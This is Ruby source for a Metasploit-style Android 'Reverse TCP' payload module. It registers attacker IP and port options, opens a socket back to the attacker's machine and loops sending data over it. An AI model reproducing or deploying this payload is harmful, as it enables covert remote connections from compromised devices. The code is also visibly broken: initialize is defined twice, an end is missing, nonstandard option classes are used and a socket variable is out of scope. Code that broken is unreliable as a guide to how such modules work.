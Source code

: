 require 'msf/core'



class Payload < Msf::Payload

def initialize(info = {})

super(update_info(info,

'Name' => 'Reverse TCP',

'Description' => %q{

A reverse TCP payload that establishes a connection back to the attacker machine.

},

'Author' => ['eli'],

'License' => MSF_LICENSE,

'Platform' => [OS::Android],

'Arch' => ARCH_ARMLE,

))



register_options(

[

Opt::String.new('ATTACKER_IP', [true, "Attacker's IP address"]),

Opt::Int.new('ATTACKER_PORT', [true, "Attacker's port number"]),

]
)



def initialize

super



@attacker_ip = datastore['ATTACKER_IP']

@attacker_port = datastore['ATTACKER_PORT']



# Establish reverse TCP connection

sock = Rex::Socket.create_tcp_client(@attacker_ip, @attacker_port)

print_status("Connected to attacker machine!")

end



def run

while true do

# Send data over the socket...

send_data(sock.recv(1024))

sleep 1

end

end
